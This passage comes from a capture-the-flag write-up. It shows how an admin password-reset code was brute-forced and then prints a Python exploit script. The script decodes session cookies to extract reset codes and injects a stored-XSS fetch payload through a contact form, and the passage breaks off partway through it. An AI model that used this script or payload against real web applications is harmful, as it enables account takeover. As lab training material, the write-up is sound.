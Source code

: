 We can reverse the order of lines of any file in linux with tac command.

```bash
tac uuids.txt > reversed_uuids.txt
```

We launch our brute force attack once again and this time, we found a valid reset code in under 1 hour.

![img](assets/14.png)

As we have set admin's password to '1', we can now send request to `/protected` endpoint after first authenticating as *admin*.

```python
...
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=admin&password=1', headers={'Content-type':'application/x-www-form-urlencoded'})
print(session.post('http://'+IP+':'+PORT+'/protected', data='password=1', headers={'Content-type':'application/x-www-form-urlencoded'}).text)
```

and we have the flag.

Here is the complete exploit code we wrote for the challenge:

```python
import requests, base64, json, os

IP = '<IP>'
PORT = '<PORT>'

# Creating new user
requests.post('http://'+IP+':'+PORT+'/register', data='username=test&email=test@test.com&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})

# Login with new user and trigger the reset code
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=test&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc2 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']
```